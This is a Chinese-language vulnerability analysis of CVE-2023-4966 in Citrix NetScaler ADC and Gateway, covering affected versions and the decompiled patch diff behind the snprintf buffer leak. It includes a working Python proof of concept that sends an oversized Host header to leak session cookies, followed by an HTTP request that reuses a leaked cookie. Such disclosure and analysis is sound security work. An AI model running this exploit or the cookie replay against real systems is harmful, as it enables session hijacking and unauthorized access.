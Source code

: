 # 

# Citrix NetScaler ADC & Gateway 信息泄露漏洞 CVE-2023-4966

## 漏洞描述

NetScaler ADC和NetScaler Gateway是美国思杰（Citrix）公司的产品。Citrix Gateway是一套安全的远程接入解决方案，可提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据；Citrix ADC是一个全面的应用程序交付和负载均衡解决方案，用于实现应用程序安全性、整体可见性和可用性。

在 Citrix 设备设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器的情况下，可以通过访问`/oauth/idp/.well-known/openid-configuration`路由并往 HOST字段发送大量数据从而泄露缓冲区信息，其中可能包含session cookie相关信息，攻击者可以借助该信息无需经过身份验证实现访问。

参考链接：

- https://xz.aliyun.com/t/13031

## 漏洞影响

```
NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50
NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15
NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19
NetScaler ADC 13.1-FIPS < 13.1-37.164
NetScaler ADC 12.1-FIPS < 12.1-55.300
NetScaler ADC 12.1-NDcPP < 12.1-55.300
```

## 漏洞复现

选择 NetScaler Gateway 的 13.1-49.15和13.1-48.47 两个版本进行分析，主要关注其 /netscaler/nsppe 二进制文件的相关补丁，该文件是 NetScaler 数据包处理引擎，它包含完整的 TCP/IP 网络堆栈以及多个 HTTP 服务。

通过分析，最终确定与漏洞相关的函数为：ns_aaa_oauth_send_openid_config和ns_aaa_oauthrp_send_openid_config

更新前后代码的主要差异如下：

```
# 更新前

iVar3 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
authv2_json_resp = 1;
iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,iVar3);
```


```
# 更新后

uVar7 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
uVar4 = 0x20;
if (uVar7 < 0x20000) {
    authv2_json_resp = 1;
    iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,uVar7);
    ...
}

```

该代码段落在访问 `/oauth/idp/.well-known/openid-configuration` 路由的时候将被调用，其逻辑是通过调用 snprintf()函数构造一个 json 数据并通过 ns_vpn_send_response() 函数形成http response 返回给用户，这个 json 数据中拼接了来自 http 请求的 **HOST 字段的数据**。

snprintf()函数虽然通过第二个参数限制了 print_temp_rule对应的字符串的最大长度，但是 snprintf()函数的返回值却是 完成 format 之后预期的 字符串的长度，也就是说即使第二个参数为 0x20000 ，snprintf()函数的返回值可以大于 0x20000。

ns_vpn_send_response()函数的第四个参数决定了读取的内存大小，这就意味着 紧跟在 print_temp_rule变量之后的缓冲区中的信息能够被带入 response 当中。

从上面的分析可以想到，攻击者能够在访问 /oauth/idp/.well-known/openid-configuration路由时往 Host字段插入大量数据，从而使得返回的response 中带上缓冲区信息，导致信息泄露。

poc：

```python
import requests
from urllib.parse import urljoin

url = "https://ip:port"

headers = {"Host": "a"*24578}
try:
    r = requests.get(urljoin(url,"/oauth/idp/.well-known/openid-configuration"), headers=headers, verify=False,timeout=10)
    print(r.status_code)
    if len(r.content) > 0:
        with open("resp.txt","wb") as f:
            f.write(r.content)
except Exception as e:
    print(e)

```

在 response 中可能会包含 长度为 65 或 32 的 session cookie ，比如：

```
5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
```

攻击者可以借助该信息无需经过身份验证实现系统的访问：

```
GET /logon/LogonPoint/Authentication/GetUserName HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: NSC_AAAC=5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

## 漏洞修复

官方最新版本已修复此漏洞。下载地址为：

- [https://www.citrix.com/downloads/citrix-adc/](https://www.citrix.com/downloads/citrix-adc/)
